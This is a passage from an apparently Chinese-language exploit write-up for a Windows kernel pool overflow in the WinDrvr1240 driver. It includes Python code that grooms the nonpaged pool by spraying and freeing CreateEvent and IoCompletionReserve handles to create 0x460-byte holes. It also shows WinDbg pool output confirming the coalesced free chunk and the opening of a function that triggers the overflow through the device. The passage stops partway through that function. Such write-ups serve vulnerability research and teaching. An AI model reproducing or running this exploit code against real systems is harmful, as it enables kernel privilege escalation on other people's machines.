 

```
bin = []
 
            # object sizes
            CreateEvent_size         = 0x40
            IoCompletionReserve_size = 0x60
            combined_size            = CreateEvent_size + IoCompletionReserve_size
 
            # after the 0x20 chunk hole, the first object will be the IoCompletionReserve object
            offset = IoCompletionReserve_size  
            for i in range(offset, offset + (7 * combined_size), combined_size):
                try:
                    # chunks need to be next to each other for the coalesce to take effect
                    bin.append(khandlesd[obj + i])
                    bin.append(khandlesd[obj + i - IoCompletionReserve_size])
                except KeyError:
                    pass
 
            # make sure it's contiguously allocated memory
            if len(tuple(bin)) == 14:
                holes.append(tuple(bin))
 
    # make the holes to fill
    for hole in holes:
        for handle in hole:
            kernel32.CloseHandle(handle)
```

在我们释放函数的同时，在池中打洞，并获得我们所期待的释放块。



```
kd&gt; !pool 8674e000
Pool page 8674e000 region is Nonpaged pool
*8674e000 size:  460 previous size:    0  (Free)      *Io                       &lt;-- 0x460 chunk is free
    Pooltag Io   : general IO allocations, Binary : nt!io
 8674e460 size:   60 previous size:  460  (Allocated)  IoCo (Protected)
 8674e4c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
......
 8674ef60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674efa0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
```

在此时，释放的区块已经合并，并且拥有一个完美的大小，接下来就可以进行分配和覆盖。



**对已释放区块的分配和覆盖**

****

```
def we_can_trigger_the_pool_overflow():
    """
    This triggers the pool overflow vulnerability using a buffer of size 0x460.
    """
    GENERIC_READ  = 0x80000000
    GENERIC_WRITE = 0x40000000
    OPEN_EXISTING = 0x3
    DEVICE_NAME   = "\\.\WinDrvr1240"
    dwReturn      = c_ulong()
    driver_handle = kernel32.CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, None, OPEN_EXISTING, 0, None)
    inputbuffer       = 0x41414141
    inputbuffer_size  = 0x5000
    outputbuffer_size = 0x5000
```